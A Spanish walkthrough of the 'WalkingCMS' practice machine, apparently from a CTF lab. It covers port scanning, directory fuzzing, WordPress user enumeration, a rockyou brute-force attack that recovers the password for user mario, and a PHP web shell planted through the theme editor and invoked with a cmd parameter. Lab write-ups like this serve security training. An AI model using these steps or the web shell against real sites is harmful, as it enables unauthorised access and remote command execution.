 # Máquina WalkingCMS

# Despliegue de la Máquina

Vamos a iniciar la máquina mediante el comando (bash auto_deploy.sh walkingcms.tar)

##Escaneo de puertos

Ejecutamos este comando

```
sudo nmap -sSCV -n -Pn --min-rate 5000 -p- --open 172.17.0.2
```

Resultado
Podemos observar que es el puerto 80 el que está abierto, con lo cual podemos ir al navegador e introducir la IP.
 La página por defecto de Apache en Debian muestra el mensaje "Apache2 Debian Default Page".
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como es una pagina web de Apache, podemos proceder a realizar fuzzing para averiguar el contendido de la pagina(Directorios/archivos)
Para ello vamos a realizar la ejecucion de este comando.
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```
Resultado
```
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icons/               (Status: 403) [Size: 275]
/wordpress/           (Status: 200) [Size: 52441]
/server-status/       (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
```
En el resultado aparece wordpress con lo cual podemos intuir que el servidor está alojado en wordpress.

Con lo cual podemos usar la herramienta wpscan, que nos ayuda a poder investigar los posibles directorios, usuarios....
```
wpscan --url http://172.17.0.2/wordpress/ --enumerate u vp
```
En este caso nos salió este resultado.
Donde encontramos al usuario (Mario)
```
[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

# Fuerza Bruta
Como conocemos el posible usuario podremos realizar un atauqe de fuerza bruta al panel de wordpress.
Con lo cual sería este comando.
```
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```

Resultado

El ataque dió como resultado que la contraseña del usuario mario es (love).
Con lo cual vamos a tratar de iniciar sesion en el panel de wordpress con estas credenciales.
```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                         
Trying mario / stephen Time: 00:00:02
```

Para ello accederemos al directorio /wp-admin.
Y podremos iniciar sesion sin problemas en el panel de wordpress.

# Explotación

Una vez dentro del wordpress en el apartado de la izquierda, tendremos una opcion que se llama apariencia.
Dentro de apariencia, tenemos la opción de (Theme code Editor)
Nos aparecerá un código index.php que podremos modificar, en el cual vamos a colocar este código 
```
<?php
	system($_GET['cmd']);
?>
```
Ahora nos vamos dirigir a la direccion del archivo donde está nuestro codigo con el index.php modificado,
colocamos esta URL con un valor al parámetro CMD.
```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```






